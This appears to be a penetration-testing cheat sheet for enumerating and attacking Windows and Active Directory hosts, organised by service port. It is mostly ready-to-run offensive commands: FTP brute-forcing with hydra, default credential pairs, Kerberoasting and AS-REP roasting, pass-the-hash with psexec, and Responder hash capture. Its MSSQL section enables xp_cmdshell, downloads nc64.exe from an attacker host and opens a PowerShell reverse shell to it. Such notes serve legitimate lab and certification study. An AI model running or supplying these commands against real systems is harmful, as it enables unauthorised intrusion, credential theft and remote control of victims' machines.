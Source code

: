 ## Enumeration Checklist

<set your variables>
target=
user=
pass=
ip=
domain=

# 21 FTP

`hydra -l <user list> -P <password list> ftp://$ip`

common creds patterns

admin/admin
root/root
password/password
username/username


# 53 DNS

dig @$ip version.bind CHAOS TXT
dig axfr @$ip $domain     
dnsenum $domain

# 135 RCP

rpcclient -U '' -N $ip
rpcclient -U '$user%$pass' $ip 

> enumdomusers      #check the users on the DC
> queryuser <username>  #query the details of the user
> querydispinfo 

nmblookup -A $ip

# 445 SMB

<Without Pass>

enum4linux -a $ip
impacket-lookupsid '$domain'/'$user'@$domain -no-pass

smbmap  -H 10.10.10.100 --depth 10 -r   #List Shares
smbclient -N -L //[ip]
smbclient //[ip]/[share] -N   #Enumerate Files


<With Pass>
lookupsid.py  $domain/$user:$pass@$domain

lookupsid.py  #domain/$user:$pass@$ip | grep SidTypeUser | cut -d " " -f 2 | cut -d '\' -f 2     #This oneliner will create a file with all the domain users

psexec.py -hashes  :<ntlm hash>    $user@$ip

smbmap -H  hokkaido-aerospace.com -u info -p info --depth 10 -r

smbclient //$ip/C$ -U '$user%$pass' -c 'dir'

netexec smb [host/ip] -u [user] -p [pass] --shares

netexec smb [host/ip] -u guest -p '' --shares

smbclient //[ip]/[share] -U [username] [password]

netexec smb -u [user] -p [pass] -M spider_plus

smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass - Kerberos auth

manspider.py --threads 256 [IP/CIDR] -u [username] -p [pass] [options]


# 88 Kerberoas

nmap --script=krb5-enum-users --script-args='userdb=/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt' -p88 $ip

kerbrute  -dc $ip -domain $domain -users <user file>   #check if the uses are valid

impacket-GetNPUsers $domain/$user -dc-ip $ip   #AS Rep; hashcat module 18200 

impacket-GetUserSPNs -request -dc-ip $ip $domain/$user  #Kerberoasting; Kerberoasting module 13100

kerbrute -domain #domain -dc $ip -users /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt 

kerbrute -domain $domain -dc $ip  -users /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 100


# 389 LDAP

<Without Pass>
ldapsearch -H ldap://$ip -x -b "DC=oscp,DC=exam" 

ldapsearch -x -H ldap://$ip -s base namingcontexts

impacket-lookupsid '$domain/guest'@$domain -no-pass

<With Pass>
lookupsid.py  $domain/$user:$pass@$domain
ldapsearch -x -H ldap://$ip -D '$user' -w '$pass' -s base namingcontexts

bloodhound-python -d $domain -u $user -p $pass -c all -ns $ip
neo4j console                #config file; /usr/share/neo4j/conf
./Bloodhound  --no-sandbox


# 1433 MSSQL

impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth  #Windows login
impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148   #user login

SELECT @@version   #Current MSSQL Version	
SELECT DB_NAME()   #Current Database
SELECT name FROM sys.databases;  #show DBs	
enum_db            #show DBs

select * from   <DB name>.INFORMATION_SCHEMA.TABLES  #show tables  

#cmd command	

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell ' whoami /priv '

xp_cmdshell "certutil -urlcache -f http://192.168.45.247/nc64.exe nc64.exe"  #If cmd command dose not work, upgrade to poershell
xp_cmdshell "powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.149.147:1235/nc64.exe'',''C:\Windows\Temp\nc64.exe'')"
xp_cmdshell "/windows/temp/nc64.exe 10.10.149.147 1234 -e powershell"
	
hash capture

xp_dirtree \\192.168.1.210\shared
responder -I tun0   #When the SQL service is running under a machine account, the authentication process returns the machine account hash, which is not crackable (e.g., $DC)

enum_impersonate  #impersonate
EXECUTE AS LOGIN = 'username to impersonate'  #impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'  #impersonate


<MSSQL Cheetsheet>

https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
https://kwcsec.gitbook.io/the-red-team-handbook/infrastructure/sql/ms-sql/privilege-escalation
https://www.bordergate.co.uk/attacking-mssql/


# 3389 RDP

xfreerdp /u:$user /p:$pass /v:$ip /cert:ignore +clipboard

# 5985 WINRM

evil-winrm -i $ip -u $user -p $pass

